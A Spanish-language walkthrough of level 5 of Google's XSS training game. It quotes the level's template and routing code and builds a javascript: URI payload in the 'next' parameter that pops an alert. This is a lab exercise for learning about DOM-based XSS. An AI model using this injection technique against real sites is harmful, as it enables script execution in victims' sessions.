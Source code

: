#[5/6]  Level 5: Breaking protocol

##Mission Description

Cross-site scripting isn't just about correctly escaping data. Sometimes, attackers can do bad things even without injecting new elements into the DOM.

##Mission Objective

Inject a script to pop up an alert() in the context of the application.

## Write Up Iker 

En esta ocasion tenemos que registrarnos con nuestro correo y hacer salta la alerta con algún parámetro injectable en el código.
Vamos a ver que nos muestra el código **welcome.html*

```html 
 <a href="/level5/frame/signup?next=confirm">Sign up</a> 
```

Que nos lleva a la siguiente dirección:

```html
https://xss-game.appspot.com/level5/frame/signup?next=confirm 
```

Observando el código de ```confirm.html```, ```signup.html```y ```level.py``` vemos que el código **window.location** se basa en el parámetro **next**
```html
<a href="{{ next }}">Next >></a>
```

```python
# Route the request to the appropriate template
    if "signup" in self.request.path:
      self.render_template('signup.html', 
        {'next': self.request.get('next')})
    elif "confirm" in self.request.path:
      self.render_template('confirm.html', 
        {'next': self.request.get('next', 'welcome')})
    else:
      self.render_template('welcome.html', {})
```
```javascript
<script>
      setTimeout(function() { window.location = '{{ next }}'; }, 5000);
    </script>
```

Tras investigar un poco en Google hemos llegado a la conclusión de que puede ser un ataque **DOM Based XSS** 
-https://www.owasp.org/index.php/DOM_Based_XSS

Como ya sabemos que el código **window.location** ejecutará el código que pongamos en la variable **next**, podemos hacer que la variable next ejecute directamente la alerta con el siguiente código:

```javascript
javascript:alert('CARACOL FUNTZIONA!')
```
Quedando como resultado final la siguiente URL:

```html
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('CARACOL FUNTZIONA!')
````

La URL modificada nos lleva al a página para rellenar el formulario con nuestro correo en el campo **enter email** y pulsamos en **Next**.
Observamos como se ejecuta la alerta que hemos introducido al campo **Next** :) 

Iker Burguera

```
